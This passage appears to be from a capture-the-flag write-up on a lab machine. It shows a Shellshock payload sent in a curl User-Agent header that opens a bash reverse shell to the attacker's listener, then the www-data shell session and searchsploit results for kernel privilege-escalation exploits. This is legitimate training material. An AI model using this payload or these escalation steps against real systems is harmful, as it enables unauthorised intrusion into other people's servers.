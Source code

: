 
and just like that I got an RCE, the next step is clear, we are going to make a reverse shell.
<pre><code> nc -nlvp 1234 </code></pre>


<pre><code> curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.9.1.249/1234 0>&1" http://10.10.101.200/cgi-bin/test.cgi </code></pre>



<pre><code> Connection from 10.10.101.200:40083
bash: cannot set terminal process group (867): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data </code></pre>

<pre><code> www-data@ubuntu:/home/ryan$ ls
ls
user.txt </code></pre>


now that we have the user flag we need to escalate privileges, we are on a very old version of the linux kernel so we probably have some vulnerability.
<pre><code> www-data@ubuntu:/home/ryan$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux </code></pre>

I will use searchexploit to search for vulnerabilities.
<pre><code> searchsploit linux kernel 3.13.0
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation          | solaris/local/15962.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation                  | linux/local/50135.c
Linux Kernel 3.11 < 4.8 0 - 'SO_SNDBUFFORCE' / 'SO_RCVBUFFORCE' Local Privilege Es | linux/local/41995.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pr | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pr | linux/local/37293.txt
Linux Kernel 3.14-rc1 < 3.15-rc4 (x64) - Raw Mode PTY Echo Race Condition Privileg | linux_x86-64/local/33516.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64) - 'CONFIG_X86_X32=y' Local Priv | linux_x86-64/local/31347.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.10) - 'CONFIG_X86_X32' Arbitrary Write (2)    | linux/local/31346.c
Linux Kernel 3.4 < 3.13.2 - recvmmsg x32 compat (PoC)                              | linux/dos/31305.c
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free               | linux/dos/43234.c
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                         | linux/local/41886.c
Linux Kernel < 3.16.1 - 'Remount FUSE' Local Privilege Escalation                  | linux/local/34923.c
Linux Kernel < 3.16.39 (Debian 8 x64) - 'inotfiy' Local Privilege Escalation       | linux_x86-64/local/44302.c
Linux Kernel < 4.10.13 - 'keyctl_set_reqkey_keyring' Local Denial of Service       | linux/dos/42136.c
Linux kernel < 4.10.15 - Race Condition Privilege Escalation                       | linux/local/43345.c
Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation  | linux/local/45553.c